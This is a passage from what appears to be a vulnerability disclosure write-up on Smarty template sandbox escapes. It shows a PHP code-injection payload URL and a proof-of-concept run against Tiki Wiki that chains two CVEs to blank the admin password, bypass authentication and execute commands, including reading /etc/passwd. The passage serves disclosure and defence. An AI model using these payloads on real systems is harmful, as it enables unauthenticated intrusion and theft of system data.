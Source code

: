 ```txt
http://localhost:8000/page.php?poc=string:{function+name='rce(){};system("id");function+'}{/function}
```

![function name injection](/assets/images/smarty-template-engine-multiple-sandbox-escape-php-code-injection-vulnerabilities/e6c4a9e8909c4a4bbc79e9fe5ff57597.png)

### Tiki Wiki 

When we combine CVE-2020-15906 and CVE-2021-26119 together, we can achieve unauthenticated remote code execution using [this exploit](/pocs/cve-2021-26119.py.txt):

```
researcher@incite:~/tiki$ ./poc.py
(+) usage: ./poc.py <host> <path> <cmd>
(+) eg: ./poc.py 192.168.75.141 / id
(+) eg: ./poc.py 192.168.75.141 /tiki-20.3/ id

researcher@incite:~/tiki$ ./poc.py 192.168.75.141 /tiki-20.3/ "id;uname -a;pwd;head /etc/passwd"
(+) blanking password...
(+) admin password blanked!
(+) getting a session...
(+) auth bypass successful!
(+) triggering rce...

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux target 5.8.0-40-generic #45-Ubuntu SMP Fri Jan 15 11:05:36 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
/var/www/html/tiki-20.3
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

### CMS Made Simple

When we combine CVE-2019-9053 and CVE-2021-26120 together, we can achieve unauthenticated remote code execution using [this exploit](/pocs/cve-2021-26120.py.txt):
